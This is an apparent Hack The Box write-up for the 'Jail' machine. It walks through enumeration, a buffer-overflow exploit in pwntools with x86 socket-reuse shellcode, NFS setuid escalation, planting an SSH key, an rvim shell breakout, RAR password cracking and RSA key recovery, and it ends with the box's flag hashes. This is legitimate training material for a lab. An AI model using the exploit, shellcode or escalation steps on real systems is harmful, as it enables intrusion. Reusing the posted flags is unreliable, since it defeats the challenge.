jail

nmapAutomator

-------------------------------------------Full scan------------------------------------------

http

gobuster
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -l -t 30 -e -k -x .html,.php -u http://10.10.10.34:80


prisoner.html
jailuser
dev/
jailuser/dev
lets download the files and move them into our directory

this wget command will download all the files in the jailuser/dev directory recursively
wget --no-parent --reject “index.html*” -r http://10.10.10.34/jailuser/dev

jailuser.c
this c code is most likley susceptable to a buffer overflow attack because the auth method is using strcpy which is known to be vulnerable and takes a userpass variable with a buffer size of only 16





jail

we see its an executable and running on port 7411, lets run it


compile.sh
compile.sh is a simple bash script meant to compile jail's source code into an executable, nothing too interesting here
initial foothold
we're going to need to exploit the BoF vulnerability on the ./jail function to get a foothold on this machinethe BoF vulnerable service is running on port 7411 (on our box and the victim box)


gdb ./jail
Lets load jail into GDB to find out where to overwrite the EIP to execute our shellcode
set follow-fork-mode child
set detach-on-fork off

to reset the code after a crash, use inferior 1 and “C” (continue) instead of “R” (run)
checksec
we'll need to run the gef built-in tool checksec to check what kind of memory protections the jail uses which will give us valible info when writing our BoF


Buffer Overflow
skeleton code
this is how our exploit should look before we startfrom pwn import *
#Set Basic Junk
context(os="linux", arch="i386" or amd64 )
HOST, PORT = “10.10.14.62”, 7411)
#Junk to get to EIP Overwrite
junk="xCC"*<offset>
#Memoy Address Leaked (p64 for 64 bit linux)
mem = p32(0xffebb890)
#Shellcode to execute
buff = “”
#Connect to Host
p.remote(HOST, PORT)
p.recvuntil("")
p.sendline("PASS " + junk + mem + buff)
p.interactive()
crash the program
since the buffer for the password was only 16 bytes, lets send it an amount that will crash it

taking a look at the EIP register we see it has been completely overwritten by A's

find offset
lets create a pattern to send through with gefaaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaa


gdb will then enter debugging mode where we see the EIP was overwritten by the string “haaa” at memory address 0x61616168

now we can run a pattern search on EIP's exact memory address

now we know we need precisely 28 bytes of junk to get to the EIP register!
mem leak
mem leaked location where the buffer starts is 0xffffd610
socket reuse x32 shellcode
this program has a few bad characters that make generating a reverse shell back to our box frustrating, but since the box and function are for linux x32 architecture, there is a socket reuse shellcode we can look up online that will generate a shell for us through the port we attack

/*
shellcode[]=
"\x6a\x02\x5b\x6a\x29\x58\xcd\x80\x48\x89\xc6"
"\x31\xc9\x56\x5b\x6a\x3f\x58\xcd\x80\x41\x80"
"\xf9\x03\x75\xf5\x6a\x0b\x58\x99\x52\x31\xf6"
"\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
"\x89\xe3\x31\xc9\xcd\x80";
*/
exploit.py
this is what our BoF looks like in its final form

running it we get our shell!

priv esc from nobody to frank
getting a shell through our BoF exploit we see we drop in as use nobody

running sudo -l we see we can run logreader.sh as the frank user

however running this script doesn't get us anything useful

nfs version 3
looking at our nmap basic scan, there is a nfs service being run on port 2049
showmount -e 10.10.10.34

setuid.c
we can write a setuid program that will elevate our privleges to frank






setuid to frank
priv esc from frank to adm
running sudo -l we see frank can run rvim as adm
first lets get drop an ssh key into frank's .ssh/authorized_keys file so we can properly ssh into the box as him
generate ssh key
generating an rsa key is pretty ez, (just dont mistype ket instead of key like i did)ssh-keygen

drop key into .ssh/authorized_keys
to drop the key into franks ,ssh/authorized_keys fileecho our public key into the authoized_keys file

and we can ssh in


breaking out of rvim
spawning a python shell within rvim breaks us out as user adm
:py import pty;pty.spawn("/bin/bash")


priv esc from adm to root
now that we're logged in as adm
theres a hidden file .keys

.keys directory:

note.txt

.local diectory:

.frank text file

decode frank
We see there's a strange file .frank that we can read
turns out the ciphertext is actually encoded in Atbash, there is a great decoder online we can use at rumkin.com


alcatraz history
because our username is frank and the .frank file we deciphered mentions alcatraz, googling famous inmates will do us good here
keys.rar
lets xfer this file to our attack machine by encoding it in base64 and copying the string over to our machine

unrar
we'll have to brute this password to extract the contents of our rar file
breaking keys.rar
so we know frank's password consists of his last name (morris), a 4 digit number and a symbol thanks to the note.txt file

we can make hashcat sub in from a list of digits and symbols with ?d and ?s
hashcat --stdout -a 3 Morris19?d?d?s > /root/Document/htb/boxes/jail/rar/pw_list

rar2john
rar2john keys.rar
john
password is Morris1962!
now to unzip the rar

RsaCtfTool
so the rootauthorizedkey.pub file is a public key, luckily there is a tool on github that is capabie of generating private keys given their counterpart public keys called RsaCftTool

 \
\
ssh into root

user/root

9864400728f309c1238f622927883017

f09f2be1a61a9b521d4221bd9dcb29ce
lessons learned
Check out Rana Khalil's OSCP writeups and prep at https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/